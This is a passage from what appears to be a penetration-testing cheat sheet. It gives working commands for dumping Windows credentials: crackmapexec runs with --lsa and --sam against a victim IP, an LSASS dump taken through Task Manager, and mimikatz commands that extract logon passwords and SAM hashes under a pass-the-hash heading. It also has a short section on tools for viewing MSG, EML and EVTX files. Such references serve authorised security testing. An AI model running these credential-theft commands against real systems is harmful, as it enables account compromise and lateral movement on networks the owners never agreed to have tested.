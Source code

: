 ```
crackmapexec smb <victim-IP> --local-auth -u <user> -p <password> --lsa
```

* Dumping SAM Remotely

```
crackmapexec smb <victim-IP> --local-auth -u <user> -p <password> --sam
```

* Obtain LSA from Task Manager

Run Task Manager > search Local Security Authority Process > press right mouse button > create dump file, and then it can be analyze with tools, for example mimikatz or similar.


### Tools for Analysis Windows Files

> MSG and EML files

[Free Online .MSG and .EML Viewer](https://www.encryptomatic.com/viewer/)

> EVTX file

Download: https://github.com/omerbenamram/evtx

```
sudo apt install cargo
```

```
cargo install evtx
```

Convert the evtx file in json file:

```
/root/.cargo/bin/evtx_dump -f <output> -o json <file.evtx>
```


### Pass The Hash (PtH)

#### Interesting Tools

> Mimikatz

Obtaining Hashes:

```
mimikatz # privilege::debug 
mimikatz # token::elevate
mimikatz # sekurlsa::logonpasswords
```

Obtaining SAM:

```
privilege::debug  
token::elevate  
lsadump::sam
```
